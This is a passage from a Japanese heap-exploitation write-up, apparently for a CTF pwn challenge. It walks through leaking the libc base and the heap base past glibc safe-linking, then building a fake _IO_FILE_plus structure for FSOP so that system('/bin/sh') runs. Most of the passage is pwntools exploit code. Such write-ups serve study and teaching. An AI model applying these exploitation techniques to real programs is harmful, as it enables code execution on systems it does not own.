 ![3](https://storage.googleapis.com/zenn-user-upload/93381257f6cf-20230506.png)

**この残りの部分のアドレスはCと同じ**なのでC.fdをshowで読み出せば&main_arena.bins[0] - 0x10が得られ、そこからlibc baseをleakできる。exploitの対応する部分は以下。
```python: exploit.py
# libc base leak
create(1, 0x420 - 8, b'')
libc_base = unpack(show(2)[:8]) - 0x219ce0
l.address = libc_base
log.info('libc_base = %#016lx'%(libc_base))
```

## FSOP
後はFSOPすれば終わり。_IO_2_1_stderr_や_IO_2_1_stdout_を改竄することも考えたが以下の部分が問題。
```c: main.c#L69
  memset(list[idx].ptr, 0, list[idx].size);
  printf("Enter your content: ");
```
_IO_2_1_stderr_を改竄するためにはlist[idx].ptrを&_IO_2_1_stderr_にする必要があるがmemsetで0初期化された後にprintfが呼ばれるので死ぬ。そこでheapに偽の_IO_FILE_plus構造体を用意して_IO_list_allに書き込むことにした。

まずこの時点でtcache(0x20)にはG,Eが入っているのでこれを消費しておく。(Eは後で使う。)
```python: exploit.py
create(6, 0x10, b'g' * 0x10)
create(4, 0xc, b'e' * 0xc)
```
次に0x30バイトのchunkを確保してdeleteしている。これは前のstageでunsorted binに登録したchunkから切り出される。
```python: exploit.py
create(13, 0x30 - 8, b'') # chunkCから切り出される。
delete(13)
# tcahce(0x30): C
```
実際heapを見てみると以下のようになっている。

![4](https://storage.googleapis.com/zenn-user-upload/aeb709e3802a-20230506.png)

次に今deleteしてtcache(0x30)にいれたCのfdをleakする。(list[2].ptrはまだ&C.fdになっている)この値はsafe-linkingによって&C.fdを12bit右シフトした値になっている。ここでleakした値をtcahce-posisoningするときに使う。
```python: exploit.py
# leak chunkC.fd to bypass safe-linking
shr12_chunkC = unpack(show(2)[:8])
heap_base    = (shr12_chunkC << 12)
log.info('(&C.fd >>12) = %#016lx'%(shr12_chunkC))
log.info('heap_base = %#016lx'%(heap_base))
```
次に&I.fdに偽の_IO_FILE_plus構造体を用意する。これは以前の記事で説明した通りなので説明は省略。
```python: exploit.py
# chunkIの位置に_IO_FILE_plus構造体を用意する
delete(8)
system = l.sym['system']
wfile_jumps = l.sym['_IO_wfile_jumps']
chunkI = heap_base + 0xc90

# fake _IO_FILE_plus struct
fake_file = b'  /bin/sh\0' # _flags
fake_file = fake_file.ljust(0xa0, b'\0')
fake_file += pack(chunkI + 0xe0) # _wide_data
fake_file = fake_file.ljust(0xc0, b'\0')
fake_file += p32(1) # _mode
fake_file = fake_file.ljust(0xd8, b'\0')
fake_file += pack(wfile_jumps) # vtable

# fake _IO_wide_data & _IO_jump_t struct
fake_wide_data = pack(0) * 4
fake_wide_data += pack(1) # _IO_write_ptr
fake_wide_data = fake_wide_data.ljust(0x8 * 13, b'\0')
```

[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34